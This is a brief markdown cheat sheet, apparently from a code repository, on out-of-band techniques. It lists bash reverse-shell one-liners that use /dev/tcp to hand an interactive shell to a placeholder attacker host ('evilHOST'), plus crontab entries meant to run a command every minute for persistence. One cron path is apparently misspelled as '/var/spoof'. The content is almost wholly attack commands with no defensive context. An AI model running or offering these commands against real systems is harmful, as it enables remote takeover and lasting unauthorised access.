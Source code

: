 # Out of Band Technology

## Reverse Shell

### bash

```bash
# EHOST=evilHOST; EPORT=6789
bash -c "bash -i >& /dev/tcp/$EHOST/$EPORT 0>&1 &"
bash -i >& /dev/tcp/$EHOST/$EPORT 0>&1 &
```

### crontab (Unix-only)

```bash
# /etc/cron.d/<fileName>
* * * * * <username> <command>

# /etc/crontab
* * * * * <username> <command>

# /var/spoof/cron/<username>
* * * * * <command>
```
